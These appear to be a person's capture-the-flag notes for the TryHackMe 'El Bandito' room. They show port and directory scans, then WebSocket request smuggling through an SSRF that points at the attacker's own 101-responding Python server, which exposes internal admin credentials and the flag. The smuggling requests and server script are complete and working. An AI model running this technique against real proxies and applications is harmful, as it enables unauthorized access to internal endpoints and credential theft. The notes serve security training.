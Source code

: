 <code>

https://tryhackme.com/r/room/elbandito
https://0xb0b.gitbook.io/writeups/tryhackme/2024/el-bandito
https://voltatech.in/blog/2024/tryhackme-elbandito/#weaponizing-the-smuggled-request

## Enumeration

┌──(kali㉿kali)-[~/Documents/THM/THM_elbandito]
└─$ nmap   -Pn -p- 10.10.202.51 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-29 12:43 CET
Nmap scan report for 10.10.202.51
Host is up (0.034s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
631/tcp  open  ipp
8080/tcp open  http-proxy


┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://elbandito.thm:8080 

/info                 (Status: 200) [Size: 2]
/admin                (Status: 403) [Size: 146]
/health               (Status: 200) [Size: 150]
/assets               (Status: 200) [Size: 0]
/traceroute           (Status: 403) [Size: 146]
/trace                (Status: 403) [Size: 146]
/environment          (Status: 403) [Size: 146]
/administration       (Status: 403) [Size: 146]
/envelope_small       (Status: 403) [Size: 146]
/error                (Status: 500) [Size: 88]
/envelope             (Status: 403) [Size: 146]
/administrator        (Status: 403) [Size: 146]
/metrics              (Status: 403) [Size: 146]
/envolution           (Status: 403) [Size: 146]
/env                  (Status: 403) [Size: 146]
/dump                 (Status: 403) [Size: 146]
/tracert              (Status: 403) [Size: 146]
/administr8           (Status: 403) [Size: 146]
/environmental        (Status: 403) [Size: 146]
/administrative       (Status: 403) [Size: 146]
/tracer               (Status: 403) [Size: 146]
/administratie        (Status: 403) [Size: 146]
/token                (Status: 200) [Size: 8]
/admins               (Status: 403) [Size: 146]
/admin_images         (Status: 403) [Size: 146]
/envelopes            (Status: 403) [Size: 146]
/administrivia        (Status: 403) [Size: 146]
/beans                (Status: 403) [Size: 146]
/env40x40             (Status: 403) [Size: 146]
/traces               (Status: 403) [Size: 146]
/enviro               (Status: 403) [Size: 146]
/environnement        (Status: 403) [Size: 146]
/enve                 (Status: 403) [Size: 146]
/administrative-law   (Status: 403) [Size: 146]
/traceback            (Status: 403) [Size: 146]
/administrators       (Status: 403) [Size: 146]
/tracemap_small       (Status: 403) [Size: 146]
/tracemap_large       (Status: 403) [Size: 146]
/admin1               (Status: 403) [Size: 146]
/trace1               (Status: 403) [Size: 146]
/environ              (Status: 403) [Size: 146]
/administer           (Status: 403) [Size: 146]
/admin3_gtpointup     (Status: 403) [Size: 146]
/beanshell            (Status: 403) [Size: 146]
/dumpster-diving      (Status: 403) [Size: 146]
/envhoax              (Status: 403) [Size: 146]
/envs                 (Status: 403) [Size: 146]
/admin_hp             (Status: 403) [Size: 146]
/traceability         (Status: 403) [Size: 146]
/admin25              (Status: 403) [Size: 146]
/envivio-color        (Status: 403) [Size: 146]
/envir                (Status: 403) [Size: 146]
/tracesanction        (Status: 403) [Size: 146]
/envelope_icon        (Status: 403) [Size: 146]
/envirohealth         (Status: 403) [Size: 146]
/envelope2            (Status: 403) [Size: 146]
/envy                 (Status: 403) [Size: 146]
/admin02              (Status: 403) [Size: 146]
/environments         (Status: 403) [Size: 146]
/administrationinfo   (Status: 403) [Size: 146]
/admin_thumb          (Status: 403) [Size: 146]
/admin_full           (Status: 403) [Size: 146]
/admin_functions      (Status: 403) [Size: 146]
/traceabilitybcp_v1   (Status: 403) [Size: 146]
/traceroute_art       (Status: 403) [Size: 146]
/External%5CX-News    (Status: 400) [Size: 0]
/tracert_broken       (Status: 403) [Size: 146]
/trace-ping           (Status: 403) [Size: 146]
/traceroute-          (Status: 403) [Size: 146]
/traceroute-eng       (Status: 403) [Size: 146]
/trace-them           (Status: 403) [Size: 146]
/traceroute-tables    (Status: 403) [Size: 146]
/trace4               (Status: 403) [Size: 146]
/admin2               (Status: 403) [Size: 146]
/traceremover         (Status: 403) [Size: 146]
/traceless            (Status: 403) [Size: 146]
/adminhelp            (Status: 403) [Size: 146]
/tracemap             (Status: 403) [Size: 146]
/envision             (Status: 403) [Size: 146]
/administratoraccounts (Status: 403) [Size: 146]
/traceme              (Status: 403) [Size: 146]
/tracerx              (Status: 403) [Size: 146]
/dumpdates            (Status: 403) [Size: 146]
/dumps                (Status: 403) [Size: 146]
/environmental_issues (Status: 403) [Size: 146]
/adminoffice          (Status: 403) [Size: 146]
/envelope_21x16       (Status: 403) [Size: 146]
/envelopes_110x19     (Status: 403) [Size: 146]
/administracja        (Status: 403) [Size: 146]
/environmental-law    (Status: 403) [Size: 146]
/trace3d_2            (Status: 403) [Size: 146]
/trace3d_1            (Status: 403) [Size: 146]
Progress: 220560 / 220561 (100.00%)

## In BuprSuit

Possible Request **Smuggleing Via WebSocket**

We intercept the request on burn.html and see an HTTP/1.1 WebSocket request in Burp Suite. 

GET / HTTP/1.1
Host: elbandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 777
Origin: http://elbandito.thm:8080
Sec-WebSocket-Key: i4lFrphlN+besuhPrKrkPQ==
Connection: keep-alive, Upgrade
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

GET /env HTTP/1.1
Host: elbandito.thm

run own web server 

┌──(kali㉿kali)-[~/Documents/python]
└─$ cat server.py 
## Setting up the Attacker's Web Server
## We can quickly set up a web server that responds with status 101 to every request with the following Python code:
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
                                                                                                                    
┌──(kali㉿kali)-[~/Documents/python]
└─$ python server.py 5555
10.10.15.215 - - [05/Feb/2025 12:49:05] "GET / HTTP/1.1" 101 -




GET /isOnline?url=http://10.8.28.108:5555/ HTTP/1.1
Host: elbandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 777
Origin: http://elbandito.thm:8080
Sec-WebSocket-Key: i4lFrphlN+besuhPrKrkPQ==
Connection: keep-alive, Upgrade
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

GET /env HTTP/1.1
Host: elbandito.thm



GET /isOnline?url=http://10.8.28.108:5555/ HTTP/1.1
Host: elbandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 777
Origin: http://elbandito.thm:8080
Sec-WebSocket-Key: i4lFrphlN+besuhPrKrkPQ==
Connection: keep-alive, Upgrade
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

GET /trace HTTP/1.1
Host: elbandito.thm:8080

**SEND**
GET /isOnline?url=http://10.8.28.108:5555/ HTTP/1.1
Host: elbandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 777
Origin: http://elbandito.thm:8080
Sec-WebSocket-Key: i4lFrphlN+besuhPrKrkPQ==
Connection: keep-alive, Upgrade
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

GET /admin-creds HTTP/1.1
Host: elbandito.thm:8080


**GET**
HTTP/1.1 101 
Server: nginx
Date: Wed, 05 Feb 2025 10:48:17 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 55
Date: Wed, 05 Feb 2025 10:48:17 GMT

username:hAckLIEN password:YouCanCatchUsInYourDreams404

GET /isOnline?url=http://10.8.28.108:5555/ HTTP/1.1
Host: elbandito.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Sec-WebSocket-Version: 777
Origin: http://elbandito.thm:8080
Sec-WebSocket-Key: i4lFrphlN+besuhPrKrkPQ==
Connection: keep-alive, Upgrade
Pragma: no-cache
Cache-Control: no-cache
Upgrade: websocket

GET /admin-flag HTTP/1.1
Host: elbandito.thm:8080

**GET**
HTTP/1.1 101 
Server: nginx
Date: Wed, 05 Feb 2025 10:51:43 GMT
Connection: upgrade
X-Application-Context: application:8081

HTTP/1.1 200 
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 43
Date: Wed, 05 Feb 2025 10:51:43 GMT

THM{:::MY_DECLINATION:+62°_14\'_31.4'':::}


view-source:https://elbandito.thm:80/static/messages.js


                                                                     

</code>
